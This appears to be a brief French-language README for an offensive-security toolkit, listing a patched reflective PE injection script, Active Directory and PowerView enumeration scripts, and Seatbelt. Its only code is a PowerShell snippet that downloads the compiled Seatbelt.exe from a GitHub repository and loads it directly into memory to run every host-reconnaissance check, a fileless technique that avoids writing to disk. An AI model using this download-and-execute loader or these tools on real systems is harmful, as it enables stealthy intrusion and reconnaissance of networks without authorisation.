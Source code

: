 # Custom Tools

**Invoke-ReflectivePEInjection.ps1**
Patch pour fonctionner sur tous les systèmes windows

**seatbelt**
Class en public pour charger l'assembly directement en mémoire

```
$url = "https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Seatbelt.exe"
$x = (New-Object System.Net.WebClient).downloadData($url)
$xa = [System.Reflection.Assembly]::Load($x)
[Seatbelt.Program]::Main(@("-group=all", "-full"))
```

**AD-Enumeration.ps1**


**Powerview-Enumeration.ps1**
